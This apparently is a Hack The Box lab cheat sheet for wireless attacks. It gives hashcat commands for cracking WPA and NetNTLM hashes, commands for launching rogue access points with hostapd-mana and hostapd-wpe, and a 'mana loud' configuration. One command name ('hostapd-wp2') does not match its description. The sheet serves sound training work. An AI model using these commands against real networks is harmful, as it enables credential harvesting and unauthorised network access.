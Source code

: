 ### Password Cracking

| Command | Description |
| --- | --- |
| hcxhash2cap --hccapx=handshake.hccapx -c handshake.pcap | Converts a captured WPA handshake into a pcap. |
| hcxpcapngtool handshake.pcap -o hash.22000 | Converts the pcap to a Hashcat compatible hash format. |
| hashcat -a 0 -m 22000 hash.22000 /opt/wordlist.txt --force | Cracking WPA/WPA2 hash. |
| hashcat -m 5500 -a 0 Administrator::::54as5<SNIP>5s5:as65a4sd564d1a2s wordlist.dict | Cracking NetNTLM hash. |

### Rogue Access Point Usage

| Command | Description |
| --- | --- |
| sudo hostapd hostapd.conf | Launching a wireless access point with `hostapd (Host Access Point Daemon)`. |
| sudo hostapd-mana hostapd.conf | Launching `hostapd-mana`, a modified version of hostapd optimized for rogue AP attacks and credential harvesting. |
| sudo hostapd-wp2 hostapd.conf | Launching `hostapd-wpe`, a modified version of hostapd designed to target WPA-2 Enterprise networks and EAP-based authentication methods. |

### Hostapd configurations (hostapd.conf)

**Open Network**

Code: configuration

```configuration
interface=wlan1
hw_mode=g
ssid=HTB-Corp
channel=1
driver=nl80211
```

**Mana Loud**

Code: configuration

```configuration
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=Anything
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=Anything

# Mana Configuration
enable_mana=1
mana_loud=1
```

